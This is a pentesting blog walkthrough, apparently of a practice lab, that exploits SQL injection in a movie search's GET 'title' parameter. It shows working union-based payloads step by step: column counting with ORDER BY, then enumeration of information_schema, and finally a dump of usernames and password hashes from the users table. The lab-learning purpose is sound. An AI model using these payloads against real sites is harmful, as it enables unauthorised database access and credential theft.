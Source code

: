 ```yaml
---
layout: post
title: SQL Injection (Search\GET)
categories:
  - Web-Pentesting
---
```


<br>Here we can search for the movies

![50](https://teckk2.github.io/assets/images/Web%20Pentest/A1/50.png)
![51](https://teckk2.github.io/assets/images/Web%20Pentest/A1/51.png)
<br>Let’s check for slqi with single quote (‘)
![52](https://teckk2.github.io/assets/images/Web%20Pentest/A1/52.png)
![53](https://teckk2.github.io/assets/images/Web%20Pentest/A1/53.png)
<br>And we got the error now let’s proceed further.
![54](https://teckk2.github.io/assets/images/Web%20Pentest/A1/54.png)
<br>With double quotes and space in between (‘ ‘)
![55](https://teckk2.github.io/assets/images/Web%20Pentest/A1/55.png)
<br>All the movie result is now showing without searching for any specific movie from the database.
<br>Now using order by find the exact no. of columns in the database.
<br>For that we will put (1' order by 1-- -) after title= and increase the numbers of columns until we get any error.
![56](https://teckk2.github.io/assets/images/Web%20Pentest/A1/56.png)
<br>title=1' order by 1-- -
<br>title=1' order by 2-- -
<br>title=1' order by 3-- -
<br>title=1' order by 4-- -
<br>title=1' order by 5-- -
<br>title=1' order by 6-- -
<br>title=1' order by 7-- -
![57](https://teckk2.github.io/assets/images/Web%20Pentest/A1/57.png)
<br>At (8) we got the error which means there is 7 columns in the database, now move to the next step
<br>**Which is enumerating the database using (union select)**
![58](https://teckk2.github.io/assets/images/Web%20Pentest/A1/58.png)
<br>At columns we can print our result on are 2,3,5,4 respectively.
<br>Let’s choose column 2
![59](https://teckk2.github.io/assets/images/Web%20Pentest/A1/59.png)
![60](https://teckk2.github.io/assets/images/Web%20Pentest/A1/60.png)
<br><font color="Black">title=1' union select 1,database(),3,4,5,6,7-- -</font>
<br>Now extract the table names from the database.
![61](https://teckk2.github.io/assets/images/Web%20Pentest/A1/61.png)
<br><font color="Black">title=1' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=database()-- -</font>
![62](https://teckk2.github.io/assets/images/Web%20Pentest/A1/62.png)
<br><font color="Black">title=1' union select 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database()-- -</font>
<br>now let’s check the users table
![63](https://teckk2.github.io/assets/images/Web%20Pentest/A1/63.png)
<br><font color="Black">title=1' union select 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_name="users"-- -</font>
![64](https://teckk2.github.io/assets/images/Web%20Pentest/A1/64.png)
<br><font color="Black">title=1' union select 1,group_concat(login,0x3a,password),3,4,5,6,7 from users-- -</font>
<br>As you can see we successfully dump the username and password hash from the database.

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
